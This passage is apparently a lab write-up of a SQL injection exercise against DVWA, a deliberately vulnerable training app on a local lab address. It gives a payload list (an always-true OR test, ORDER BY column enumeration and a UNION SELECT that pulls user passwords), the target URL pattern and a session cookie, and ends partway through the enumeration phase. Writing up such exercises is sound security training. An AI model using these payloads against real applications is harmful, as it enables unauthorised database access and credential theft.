 **Payloads Repository:**
```sql
# Vulnerability Confirmation
' OR '1'='1

# Column Enumeration
1' ORDER BY 1 --
1' ORDER BY 2 --
1' ORDER BY 3 --

# UNION-based Data Extraction
' UNION SELECT user, password FROM users --
```

---

### 📋 Reconnaissance Phase

#### Initial Target Assessment
The SQL injection module in DVWA presents a simple user lookup interface where users can query user information by ID. This parameter became our primary attack vector.

**Target URL Pattern:**
```
http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=[INJECTION_POINT]&Submit=Submit
```

#### Session Management
Required authentication cookies for DVWA access:
```
Cookie: PHPSESSID=51f05876ce006ed33296ef8b0e5fa594; security=low
```

---

### ⚔️ Exploitation Methodology

#### Phase 1: Vulnerability Confirmation
**Objective:** Confirm SQL injection vulnerability exists  
**Payload:** `' OR '1'='1`  
**Expected Result:** Return all database records instead of single user

**Evidence:** `result1.png`
- Successfully bypassed authentication logic
- Retrieved multiple user records confirming SQLi vulnerability
- Confirmed unsanitized input processing

#### Phase 2: Database Structure Enumeration
**Objective:** Determine number of columns in SELECT statement  
**Technique:** ORDER BY clause enumeration

**Test Sequence:**
1. `1' ORDER BY 1 --` ✅ **Success** (`determining_column1.png`)
2. `1' ORDER BY 2 --` ✅ **Success** (`determining_column2.png`)  
3. `1' ORDER BY 3 --` ❌ **Error: Unknown column '3'** (`determining_column3.png`)
